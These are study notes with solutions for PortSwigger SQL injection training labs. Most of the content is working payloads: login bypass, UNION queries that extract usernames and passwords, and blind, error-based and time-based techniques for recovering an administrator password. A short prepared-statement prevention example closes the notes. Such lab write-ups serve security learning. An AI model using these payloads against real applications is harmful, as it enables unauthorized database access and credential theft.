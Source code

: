 ## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Solution: `https://...?category=Accessories%27%20or%201=1%20--`, namely: `category=Accessories' OR 1=1 --`

## Lab: SQL injection vulnerability allowing login bypass
Solution:  
Username: `administrator'--`


## UNION Attack
Requires:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

Use `' ORDER BY n--` or `' UNION SELECT NULL,NULL,NULL--`(or more NULLs) to determine how many columns returned.

## Lab: SQL injection UNION attack, determining the number of columns returned by the query
Solution: `?category=Gifts' UNION SELECT NULL, NULL, NULL --`

## Database-specific syntax
On Orale, `FROM` is a must and `DUAL` is a built-in table: `' UNION SELECT NULL FROM DUAL--`

For more: [SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

## Lab: SQL injection UNION attack, finding a column containing text
Solution: `' OR 1=1 UNION SELECT NULL,'twDlg5',NULL --`

## Using a SQL injection UNION attack to retrieve interesting data
`' UNION SELECT username, password FROM users--`  
But How do you know there is a table called users, and two columns called username and password?

## Lab: SQL injection UNION attack, retrieving data from other tables
Solution: `' UNION SELECT username, password FROM users--`  

## Retrieving multiple values within a single column
`' UNION SELECT username || '~' || password FROM users--`

## Lab: SQL injection UNION attack, retrieving multiple values in a single column
Solution: `' UNION SELECT NULL, username || '~' || password FROM users--`

## Querying the database type and version
Microsoft, MySQL	`SELECT @@version`  
Oracle	`SELECT * FROM v$version`  
PostgreSQL	`SELECT version()`

e.g. : `' UNION SELECT @@version`

## Lab: SQL injection attack, querying the database type and version on Oracle
`' UNION SELECT banner, NULL FROM v$version--`

## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Solution: `' UNION SELECT NULL, @@version--%20` **%20** is required at the end.

## Listing the contents of the database
Except(Oracle)  
`SELECT * FROM information_schema.tables`  
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```


## Lab: SQL injection attack, listing the database contents on non-Oracle databases
Solution:  
`' UNION SELECT TABLE_NAME, TABLE_TYPE FROM information_schema.tables --`  
`' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users_klzxlx'--`  
`' UNION SELECT username_cyywpw, password_nrcufg FROM users_klzxlx --`  

## Lab: Blind SQL injection with conditional responses
Solution:  
`' AND SUBSTRING((SELECT Password FROM users WHERE Username = 'administrator'), 21, 1) > 'a'--`  
and  
`' AND SUBSTRING((SELECT Password FROM users WHERE Username = 'administrator'), 21, 1) = 'a'--`


## Lab: Blind SQL injection with conditional errors
Password length: `' AND (SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username = 'administrator')) > 20) THEN TO_CHAR(1/0) ELSE '0' END FROM dual) > '1' --`

Password iteration: `AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§f§') THEN '0' ELSE TO_CHAR(1/0) END FROM dual) > '1' --` (Use Intrude, Pitchfork, though slow) 


## Lab: Visible error-based SQL injection
`='AND 2=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## Lab: Blind SQL injection with time delays and information retrieval
Password Length: `' %3B SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username = 'administrator')) = 20) THEN pg_sleep(0) ELSE pg_sleep(1) END--`

Password iteration: `' %3B SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 16, 1) > 'd') THEN pg_sleep(0) ELSE pg_sleep(1) END--`



## Lab: SQL injection with filter bypass via XML encoding

`UNION SELECT username || '~' || password FROM users--` need to be XML decoded.

## How to prevent SQL injection

Prepared Statement:
```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```